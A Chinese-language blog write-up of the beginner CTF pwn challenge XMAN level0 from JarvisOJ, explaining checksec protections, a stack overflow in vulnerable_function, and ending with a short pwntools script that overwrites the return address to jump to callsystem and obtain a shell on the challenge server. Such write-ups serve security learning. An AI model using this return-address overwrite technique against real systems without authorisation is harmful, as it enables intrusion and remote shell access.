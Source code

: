 ```yaml
---
title: XMAN level0 の Write-Up
date: 2020-05-01 17:40:33
categories:
- WriteUPs
- JarvisOJ
tags:
- PWN
- XMAN
- Stack
---
```

## Introduction

&emsp;&emsp;这是JarvisOJ的PWN题部分[XMAN]level0的Write-Up，也是第一次尝试PWN题，这题比较简单，就是简单的栈溢出覆盖返回地址，很适合刚上手的Rookie（比如我==）。

<!-- more -->

## Step 1

&emsp;&emsp;首先checksec一下程序：

![](/img/XMAN-level0/XMAN1.png)

&emsp;&emsp;checksec是检查程序是否打开或关闭某些保护机制的一个脚本。相关参数意义为：

* RELRO：RELRO会有Partial RELRO和FULL RELRO，如果开启FULL RELRO，意味着我们无法修改got表；

* Stack：如果栈中开启Canary found，那么就不能用直接用溢出的方法覆盖栈中返回地址，而且要通过改写指针与局部变量、leak canary、overwrite canary的方法来绕过；

* NX：NX enabled表示这个保护开启，意味着栈中数据没有执行权限，以前的经常用的call esp或者jmp esp的方法就不能使用，但是可以利用ROP这种方法绕过；

* PIE：enabled表示启用内存布局随机化，如果程序开启这个地址随机化选项就意味着程序每次运行的时候地址都会变化，而如果没有开PIE的话那么No PIE (0x400000)，括号内的数据就是程序的基地址；

* FORTIFY：FORTIFY_SOURCE机制对格式化字符串有两个限制：(1)包含%n的格式化字符串不能位于程序内存中的可写地址；(2)当使用位置参数时，必须使用范围内的所有参数。所以如果要使用%7$x，你必须同时使用1,2,3,4,5和6。

&emsp;&emsp;运行程序如下图所示：

![](/img/XMAN-level0/XMAN2.png)

## Step 2

&emsp;&emsp;把程序拖到Hopper Disassambler中看下伪C代码：

![](/img/XMAN-level0/XMAN3.png)

&emsp;&emsp;函数中有个非常明显的vulnerable_function函数，明确的告诉我们存在漏洞，看下代码果然存在栈溢出漏洞。

&emsp;&emsp;然后还看到一个callsystem函数，在函数中调用了shell：

![](/img/XMAN-level0/XMAN4.png)

&emsp;&emsp;这样思路就很简单了，通过vulnerable_function函数的栈溢出覆盖返回地址，跳转到callsystem函数入口调出shell。

## Step 3

&emsp;&emsp;由vulnerable_function函数可以发现buffer到rbp的距离为0x80字节，加上0x08字节的rbp（64位程序中rbp为8字节，32位程序中为4字节），这样就可以得到vulnerable_function函数的返回地址了，然后把这个返回地址覆盖为callsystem函数的入口地址即可：

![](/img/XMAN-level0/XMAN5.png)

## Appendix

&emsp;&emsp;EXP代码:

```Python
from pwn import *

#sh = process('./level0')
sh = remote('pwn2.jarvisoj.com', 9881)

elf = ELF('./level0')

shell_addr = elf.symbols['callsystem']

payload = 'a' * (0x80 + 0x8) + p64(shell_addr)

sh.send(payload)

sh.interactive()
sh.close()
```